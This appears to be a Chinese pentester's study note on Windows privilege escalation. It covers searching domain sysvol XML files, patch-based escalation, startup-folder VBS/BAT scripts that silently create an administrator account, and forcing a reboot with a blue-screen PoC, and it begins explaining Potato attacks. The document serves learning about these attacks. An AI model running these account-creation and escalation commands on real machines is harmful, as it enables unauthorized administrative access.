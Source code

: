   ```shell for /r \\dc/sysvol %i in (*.xml) do @echo %i```
根据补丁信息提权。这个视情况而定，通常使用到的有辅助提权网站
[辅助提权连接](https://bugs.hacking8.com/tiquan/)

### 启动项提权

- 启动项路径 `C:\Users\用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

- 创建脚本

  ```shell
  vbs：
    set wshshell=createobject("wscript.shell")
    a=wshshell.run("cmd.exe /c net user 用户名 密码  /add",0)
    b=wshshell.run("cmd.exe /c net localgroup administrators 用户名 /add",0)
  bat：
    net user 用户名 密码 /add
    net localgroup administrators 用户名 /add
  ```

- 接下来需要等待机器重启并以较大权限的账号登录，暴力一点可以配合漏洞打蓝屏poc强制重启
- bat会弹dos，vbs不会

~~这个是从文章中直接复制的，但是总感觉这个方式比较被动，可行性不高的样子，不过也算是一种方法~~

### Potato系列提权

> 土豆，没有看内网之前就有听过一些，烂土豆等等。感觉这个摊开也是一个很大的土豆饼啊！先给出参考的文章，我暂时先不挖这么深了...不然支线太多，主线看不完。更：20200714看到安全师上的一篇[文章](https://www.secshi.com/40957.html)挺好，这里做个汇总
> 20200804：发现自己对这一块的理解可能稍微有点混乱，添加新的整理和理解

还是根据这篇[先知文章](https://xz.aliyun.com/t/7776#toc-1)，好好摸索一遍！
在获取到主机权限后，执行 `whoami /priv` 查看当前用户的权限，当拥有 `SeImpersonatePrivilege` 和 `SeAssignPrimaryTokenPrivilege` ，而通常情况下，只有高权限用户，如System用户才有后者的权限，所以根据文章中，列出拥有前者权限的 Windows 账号用户

- 本地管理员账户（不包括管理员组普通用户）和**本地服务账户**
- 由SCM启动的服务

所以这就是为啥提权好用的原因吧，因为初步获取的权限一般都是IIS这种服务权限

**SCM是啥**
碰到自己的盲区了，稍微歪个楼自省一下(总觉得好像看过了，可能是我忘记了)。SCM是Service Control Manager的缩写，即服务控制管理器，微软官方的[文档](https://docs.microsoft.com/en-us/windows/win32/services/service-control-manager)，其实也不细，留个印象

本地启动一个管理员powershell，执行whoami /priv 截图如下
